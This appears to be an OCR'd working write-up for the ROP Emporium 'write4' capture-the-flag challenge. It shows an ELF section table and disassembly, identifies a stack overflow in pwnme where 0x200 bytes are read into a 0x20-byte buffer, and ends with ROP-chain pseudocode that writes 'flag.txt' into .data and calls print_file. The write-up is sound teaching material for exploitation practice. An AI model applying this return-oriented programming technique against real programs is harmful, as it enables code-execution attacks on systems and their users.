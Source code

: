 #### Writable Sections
```
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align

  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1

```

- `_pwnme` and `_print_file` are now jmps from cs register offset in .got.plt @ 0x0000000000601000
`Breakpoint 1 at 0x400510 (print_file@plt)`
`Breakpoint 2 at 0x400500 (pwnme@plt)`

```asm
0000000000400617 <usefulFunction>:
  400617:       55                      push   %rbp
  400618:       48 89 e5                mov    %rsp,%rbp
  40061b:       bf b4 06 40 00          mov    $0x4006b4,%edi
  400620:       e8 eb fe ff ff          call   400510 <print_file@plt>
  400625:       90                      nop
  400626:       5d                      pop    %rbp
  400627:       c3                      ret

0000000000400628 <usefulGadgets>:
  400628:       4d 89 3e                mov    %r15,(%r14)
  40062b:       c3                      ret
  40062c:       0f 1f 40 00             nopl   0x0(%rax)

0000000000400500 <pwnme@plt>:
  400500:       ff 25 12 0b 20 00       jmp    *0x200b12(%rip)        # 601018 <pwnme>
  400506:       68 00 00 00 00          push   $0x0
  40050b:       e9 e0 ff ff ff          jmp    4004f0 <.plt>

0000000000400510 <print_file@plt>:
  400510:       ff 25 0a 0b 20 00       jmp    *0x200b0a(%rip)        # 601020 <print_file>
  400516:       68 01 00 00 00          push   $0x1
  40051b:       e9 d0 ff ff ff          jmp    4004f0 <.plt>


```

#### pwnme in libwrite4.so
```asm
public pwnme
pwnme proc near

s= byte ptr -20h

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 20h
mov     rax, cs:stdout_ptr
mov     rax, [rax]
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setvbuf
lea     rdi, s          ; "write4 by ROP Emporium"
call    _puts
lea     rdi, aX8664     ; "x86_64\n"
call    _puts
lea     rax, [rbp+s]
mov     edx, 20h ; ' '  ; n
mov     esi, 0          ; c
mov     rdi, rax        ; s
call    _memset
lea     rdi, aGoAheadAndGive ; "Go ahead and give me the input already!"...
call    _puts
lea     rdi, format     ; "> "
mov     eax, 0
call    _printf
lea     rax, [rbp+s]
mov     edx, 200h       ; nbytes
mov     rsi, rax        ; buf
mov     edi, 0          ; fd
call    _read
lea     rdi, aThankYou  ; "Thank you!"
call    _puts
nop
leave
retn
; } // starts at 8AA
pwnme endp
```
#### print_file in libwrite4.so
```asm
; Attributes: bp-based frame

public print_file
print_file proc near

filename= qword ptr -38h
s= byte ptr -30h
stream= qword ptr -8

; __unwind {
push    rbp
mov     rbp, rsp
sub     rsp, 40h
mov     [rbp+filename], rdi
mov     [rbp+stream], 0
mov     rax, [rbp+filename]
lea     rsi, modes      ; "r"
mov     rdi, rax        ; filename
call    _fopen
mov     [rbp+stream], rax
cmp     [rbp+stream], 0
jnz     short loc_997

-->

mov     rax, [rbp+filename]
mov     rsi, rax
lea     rdi, aFailedToOpenFi ; "Failed to open file: %s\n"
mov     eax, 0
call    _printf
mov     edi, 1          ; status
call    _exit
```
In the `_pwnme` function: `s` pointer is 0x20 bytes. `_read` in 0x200 bytes maximum

In the `_print_file` function: pass the string argument for file to open. The stack is 0x40 bytes

- `.init_array` section is 0x8 bytes and is writable
- `.fini_array` section is 0x8 bytes and is writable
- `.dynamic` section is 0x10 bytes and is writeable
- `.got` section is 0x10  bytes and is writable
- `.got.plt` section is 0x8 bytes and is writable

`mov [rbp+filename], rdi` is a potential write-what-where gadget that could be abused
the challenge gives the hint `mov [rxx], rxx` as a gadget to write with

## final pseudocode
```asm
pop r14 (dst)
pop r15 (src)
ret
&.data
"flag.txt"
mov [r14], r15
pop rdi
.data
__print_file
```
